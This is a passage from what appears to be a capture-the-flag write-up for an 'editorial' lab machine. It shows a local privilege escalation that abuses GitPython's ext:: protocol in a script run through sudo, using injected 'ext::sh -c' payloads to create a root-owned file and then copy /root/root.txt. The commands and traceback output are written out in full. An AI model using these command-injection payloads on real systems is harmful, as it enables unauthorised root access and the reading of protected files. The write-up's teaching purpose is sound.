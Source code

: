 ### Exploiting the vulnerability

Let's create /tmp/pwned using the above POC.

```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.'
```

This command was successfully executed by root user. In the command % symbol is used to escape space.

File /tmp/pwned was created successfully.
```bash
prod@editorial:~$ ls -al /tmp/pwned
-rw-r--r-- 1 root root 0 Jun 24 15:15 /tmp/pwned
```

Now we can modify the exploit to get the content from /root/root.txt as 'ext::sh -c cat% /root/root.txt% >% /tmp/root':
![root flag](./editorial/root_flag.png)
